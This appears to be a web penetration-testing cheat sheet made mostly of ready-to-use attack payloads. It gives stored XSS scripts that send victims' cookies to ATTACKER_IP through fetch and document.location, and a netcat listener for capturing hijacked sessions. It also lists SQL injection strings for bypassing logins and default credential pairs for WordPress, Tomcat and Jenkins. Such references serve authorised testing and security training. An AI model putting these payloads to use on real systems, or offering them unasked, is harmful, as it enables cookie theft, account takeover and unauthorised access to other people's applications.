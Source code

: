 ### Stored XSS

```bash
# Submit in form/comment field
<script>fetch('http://ATTACKER_IP/steal?cookie='+document.cookie)</script>

# Alternative payloads
<img src=x onerror="fetch('http://ATTACKER_IP/'+document.cookie)">
```

### XSS to Session Hijacking

```bash
# 1. Set up listener
nc -lvnp 80

# 2. Inject payload
<script>
document.location='http://ATTACKER_IP/?cookie='+document.cookie
</script>

# 3. Receive cookie and use for authentication
```

## Authentication Bypass

### SQL Injection Auth Bypass

```bash
# Login bypass payloads
username: admin' OR '1'='1'-- -
password: anything

username: admin'--
password: (leave blank)

username: ' OR 1=1-- -
password: ' OR 1=1-- -
```

### Default Credentials

```bash
# Common web app defaults
admin:admin
admin:password
administrator:administrator
root:root
test:test

# CMS-specific
# WordPress: admin:admin
# Tomcat: tomcat:tomcat, admin:admin
# Jenkins: admin:password, jenkins:jenkins
```
